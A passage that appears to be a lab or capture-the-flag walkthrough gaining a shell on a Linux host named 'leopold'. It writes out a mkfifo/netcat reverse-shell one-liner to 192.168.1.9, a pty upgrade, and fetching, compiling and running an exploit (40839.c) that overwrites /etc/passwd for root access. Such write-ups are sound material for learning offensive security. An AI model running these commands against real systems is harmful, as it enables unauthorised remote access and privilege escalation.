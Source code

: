 ## start Netcat


>nc -lvnp 1234
listening on [any] 1234 ...

now try to write this in our sesstion

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.9 1234 >/tmp/f

>nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.1.9] from (UNKNOWN) [192.168.1.8] 39412
/bin/sh: 0: can't access tty; job control turned off


$ python -c "import pty;pty.spawn('/bin/bash')"
leopold@leopold:~$ 


eopold@leopold:~$ uname -a 

Linux leopold 3.5.0-17-generic #28-Ubuntu SMP Tue Oct 9 19:32:08 UTC 2012 i686 i686 i686 GNU/Linux

![image](https://user-images.githubusercontent.com/24206178/154685244-84b03811-9272-4566-949a-534cc17e28f7.png)

![image](https://user-images.githubusercontent.com/24206178/154685251-68a48c24-3fc9-4d7b-9f7d-0ec0a4b605c9.png)

make it available in the http server

>python -m SimpleHTTPServer 80

leopold@leopold:~$ cd /tmp	

leopold@leopold:/tmp$ wget http://192.168.1.9:80/40839.c

wget http://192.168.1.9:80/40839.c
--2019-12-15 06:42:06--  http://192.168.1.9/40839.c
Connecting to 192.168.1.9:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5006 (4.9K) [text/plain]
Saving to: `40839.c.1'

100%[======================================>] 5,006       --.-K/s   in 0s      

2019-12-15 06:42:06 (207 MB/s) - `40839.c.1' saved [5006/5006]

![image](https://user-images.githubusercontent.com/24206178/154685285-ceb5f2fd-9060-4d48-a9b9-a5beaf24ee22.png)

gcc -pthread 40839.c -o dirty -lcrypt

leopold@leopold:/tmp$ ./dirty
./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 12345

![image](https://user-images.githubusercontent.com/24206178/154685305-6a4a3e23-8be6-47a3-8443-1f37fd7710c7.png)
